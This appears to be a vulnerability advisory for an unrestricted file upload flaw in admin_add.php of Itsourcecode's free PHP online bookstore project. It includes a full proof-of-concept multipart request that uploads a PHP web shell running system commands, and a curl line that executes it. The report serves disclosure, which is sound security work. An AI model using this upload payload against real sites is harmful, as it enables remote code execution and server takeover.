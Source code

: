 # Itsourcecode Online-Bookstore-Project-In-PHP-Source-Code v1.0 admin_add.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online-Bookstore-Project-In-PHP-Source-Code 
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/online-book-store-project-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ kinsomnia
## Vulnerable File
+ admin_add.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2021/03/Online-Bookstore-Project-In-PHP-Source-Code.zip
# PROBLEM TYPE
## Vulnerability Type
+ Unrestricted Upload
## Root Cause
+  In line 30 of the admin_add.php file,The input obtained through $- FILES is directly used to determine the storage location of the file, without conducting a complete security check. The specific code snippet is as follows:
+ ![1](1.png)
## Impact
+ Attackers can exploit this vulnerability to upload malicious files without restriction, which can lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Exploiting malicious files can lead to remote attacks on RCE
# DESCRIPTION
+ The file upload operation was triggered on line 30 of the "admin_add.php" file, and the uploaded file was received using the "$- FILES" variable. Due to the lack of appropriate input validation and cleaning, remote attackers only need to use regular user login to pass malicious payloads through this file upload function, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
```
POST /admin_add.php HTTP/1.1
Host: 192.168.210.199:1213
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------354751125914566749201264572370
Content-Length: 1086
Origin: http://192.168.210.199:1213
Connection: close
Referer: http://192.168.210.199:1213/admin_add.php
Upgrade-Insecure-Requests: 1
Priority: u=1

-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="isbn"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="title"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="author"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="image"; filename="321.php"
Content-Type: application/octet-stream

<?php system("ipconfig"); ?>
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="descr"

1231231
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="price"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="publisher"

12312312
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="add"

Add new book
-----------------------------354751125914566749201264572370--

```
+ ![2](2.png)
+ ![3](3.png)
## I successfully executed the PHP script on the terminal
```bash 
curl http://192.168.210.199:1213/bootstrap/img/321.php
```
+ ![4](4.png)
